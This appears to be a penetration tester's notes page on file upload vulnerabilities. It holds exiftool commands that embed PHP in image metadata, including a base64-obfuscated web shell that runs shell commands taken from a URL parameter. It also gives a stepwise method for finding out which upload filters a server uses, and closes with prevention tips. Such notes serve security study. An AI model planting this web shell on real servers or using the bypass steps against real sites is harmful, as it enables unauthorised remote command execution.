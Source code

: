 {% code overflow="wrap" %}
```bash
exiftool -Comment="<?php echo \"<pre>Test Payload</pre>\"; die(); ?>" test-USERNAME.jpeg.php
# With PHP Obfuscation
exiftool -Comment="<?php \$p0=\$_GET[base64_decode('d3JlYXRo')];if(isset(\$p0)){echo base64_decode('PHByZT4=').shell_exec(\$p0).base64_decode('PC9wcmU+');}die();?>" shell-USERNAME.jpeg.php
```
{% endcode %}

## Fix File Corruption

Modify magic bytes to leave them as this

[https://en.wikipedia.org/wiki/List\_of\_file\_signatures](https://en.wikipedia.org/wiki/List_of_file_signatures)

## Example Methodology

<pre data-overflow="wrap" data-full-width="true"><code>1 - Take a look at the website as a whole. Use Wappalyzer to look for languages and frameworks the web application might have been built with (manually, making a request to the website and intercepting the response with Burpsuite). Headers such as server or x-powered-by can be used to gain information about the server. We would also be looking for vectors of attack, like, for example, an upload page.
2 - If upload page found, look at source code in case there client-side scripts.
3 - Upload an innocent file to see the server's behaviour (if we can access the upload folder, what is the naming scheme...). Use Gobuster with -x (extension option) to find that file/path if not obvious.

4 - Upload a malicious file bypassing existent client-side filters. If it is stopped by the webserver, find why:
- If uploading testing.invalidextension works, chances are that the server is using an extension blacklist to filter out executable files. If this upload fails then any extension filter will be operating on a whitelist.
- Reupload innocent file but changing magic number to be sth that you would expect to be filtered. If the upload fails then you know that the server is using a magic number based filter.
<strong>- Reupload the innocent file again but in this case change MIME type to sth that you would expect to be filtered. If the upload fails then you know that the server is filtering based on MIME types.
</strong><strong>- Enumerating file length filters is a case of uploading a small file, then uploading progressively bigger files until you hit the filter.
</strong></code></pre>

## How to prevent file upload vulnerabilities

* Whitelist of permitted extensions.
* Make sure no substring such as ../ that could be interpreted as path traversal.
* Rename uploaded files to avoid collisions / overwritten files.
* Do not upload files to the server's permanent filesystem until they have been validated
* Use established framework for preprocessing file uploads rather than attempting to write your own validation mechanisms.
